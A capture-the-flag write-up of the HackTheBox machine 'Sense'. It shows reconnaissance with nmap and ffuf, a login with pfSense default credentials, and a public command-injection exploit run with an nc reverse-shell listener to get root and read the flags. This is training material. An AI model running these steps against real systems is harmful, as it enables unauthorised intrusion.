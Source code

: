 # Sense-HTB
Sense is a FreeBSD machine that is rated as easy. This box reqiure to have some basic php skills.
# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.10.10.60             
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 20:43 EDT
Nmap scan report for 10.10.10.60
Host is up (0.030s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.36 seconds
```
So if we visit port 80 we get redirected to https with is port 443, and we have a login page:

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Sense/images/1.png)

## ffuf
I will be using ffuf to fuze web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ                                                                                                                                 2 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.60/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

themes                  [Status: 301, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
includes                [Status: 301, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 301, Size: 0, Words: 1, Lines: 1]
classes                 [Status: 301, Size: 0, Words: 1, Lines: 1]
widgets                 [Status: 301, Size: 0, Words: 1, Lines: 1]
tree                    [Status: 301, Size: 0, Words: 1, Lines: 1]
shortcuts               [Status: 301, Size: 0, Words: 1, Lines: 1]
installer               [Status: 301, Size: 0, Words: 1, Lines: 1]
wizards                 [Status: 301, Size: 0, Words: 1, Lines: 1]
```
I didn't find any interesting thing so I decided to check for txt files and I found what I want:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.60/FUZZ.txt
 :: Wordlist         : FUZZ: directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

system-users            [Status: 200, Size: 106, Words: 9, Lines: 7]
changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]
```
So ```system-users.txt``` contain a username and password:

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Sense/images/2.png)

And ```changelog.txt``` states that there is one vulnerability still didn't patched:

![image3](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Sense/images/3.png)

So a simple google search will show what pfsense default password:

![image4](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Sense/images/4.png)

So the credentials are: ```rohit:pfsense```

We are in:

![image5](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Sense/images/5.png)

So from the image above we can see that the box is runing pfsense version 2.1.3. ```searchsploit``` show one exploit for it:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit pfsense 2.1.3
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                                                                                           | php/webapps/43560.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# User Flag
So before you run the exploit make sure you start a listener:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444                                                                                                                                                                                                                    130 ⨯
listening on [any] 4444 ...
```
And now run the exploit:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/43560.py --rhost 10.10.10.60 --lhost 10.10.14.28 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
We got our shell as root :)
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444                                                                                                                                                                                                                      1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.60] 37511
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
User Flag:
```
# cat user.txt
872132...7e7348b
```
# Root Flag
No need to do anything we are root :)
```
# cat root.txt
d08c32a...a69f1a86
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
